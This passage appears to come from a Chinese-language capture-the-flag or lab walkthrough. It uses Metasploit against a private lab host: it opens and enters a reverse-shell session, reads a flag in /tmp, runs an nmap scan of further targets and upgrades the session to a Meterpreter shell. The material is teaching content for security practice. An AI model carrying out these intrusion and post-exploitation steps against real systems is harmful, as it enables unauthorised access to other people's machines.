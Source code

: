 进行攻击如果攻击成功，查看打开的 `reverse shell`
```
exploit -j
sessions -l     #查看打开的 reverse shell
sessions -i 1   #进入会话 1
id   #无命令行交互提示信息
ls /tmp    #得到 flag
```
![alt text](./img/得到flag1.png)

## 发现靶标2、3、4

```ctrl+z```将session放入后台运行

对目标网络进行扫描

```
db_nmap -p 60990,80,22 192.168.56.105 -A -T4 -n
```

![扫描目标网络](./img/扫描目标网络.png)

扫描的结果显示22,80,26106端口均为开放状态

扫描后再查看```hosts```和```service```的情况

![扫描目标网络](./img/扫描目标网络.png)

```hosts```内容补充完整，```services```内容也得到了扩充

对shell进行升级，升级为```Meterpreter Shell```

![升级shell](./img/升级shell.png)

进入升级后的shell并查看当前的网络配置，如下图所示：

![查看网络配置](./img/查看网络配置.png)
```
